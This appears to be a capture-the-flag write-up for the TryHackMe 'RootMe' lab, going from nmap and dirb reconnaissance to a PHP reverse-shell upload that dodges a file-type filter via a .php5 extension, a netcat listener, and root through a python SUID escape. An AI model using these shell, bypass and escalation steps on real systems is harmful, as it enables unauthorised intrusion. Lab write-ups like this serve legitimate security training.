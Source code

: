 # RootMe @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, dirb, ncat, google, python

### Check that host is alive
```
$ ping 10.10.108.171                                                                                       
PING 10.10.108.171 (10.10.108.171) 56(84) bytes of data.
64 bytes from 10.10.108.171: icmp_seq=1 ttl=63 time=48.4 ms
64 bytes from 10.10.108.171: icmp_seq=2 ttl=63 time=51.3 ms
```
### nmap scan
```
$nmap -sV -n -v -Pn -p- -T4 -A 10.10.108.171
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have ports 22 and 80 open, so SSH and web app.

### Lets run dirb, nikto and visit the site via browser.
```
$ dirb http://10.10.108.171  
---- Scanning URL: http://10.10.108.171/ ----
==> DIRECTORY: http://10.10.108.171/css/                                                                         
+ http://10.10.108.171/index.php (CODE:200|SIZE:616)                                                             
==> DIRECTORY: http://10.10.108.171/js/                                                                          
==> DIRECTORY: http://10.10.108.171/panel/                                                                       
+ http://10.10.108.171/server-status (CODE:403|SIZE:278)
```
```
$ -h nikto 10.10.108.171
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
```
Now we have all the answers for Reconnaissance questions.

Lets visit "http://10.10.108.171/panel/". Looks like you can upload files.

### We need to create a shell.
```
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Open the file and edit row 49 and 50 to match your IP and desired port.

Then upload the file to target_ip/panel.

Apparently uploading php file is not permitted. Rename file to .php5 and try again.

Once the php5 is uploaded. Start a netcat listener and open the shell via browser 10.10.108.171/shell.php.
```
$ nc -lvnp 1234                                                                                      
listening on [any] 1234 ...
connect to [10.8.155.124] from (UNKNOWN) [10.10.169.110] 47264
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:15 up 12 min,  0 users,  load average: 0.08, 0.68, 0.69
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ $ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

THM gives a hint on the next question: find / -user root -perm /4000

```
find / -user root -perm /4000 2>/dev/null
```
Apparently python is unusual.

Lets google "python SUID" > https://gtfobins.github.io/gtfobins/python/

```
cd /usr/bin
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
$ find / -name user.txt 2>/dev/null
find / -name root.txt 2>/dev/null
/root/root.txt
cat /root/root.txt
```
And we have the last flag.
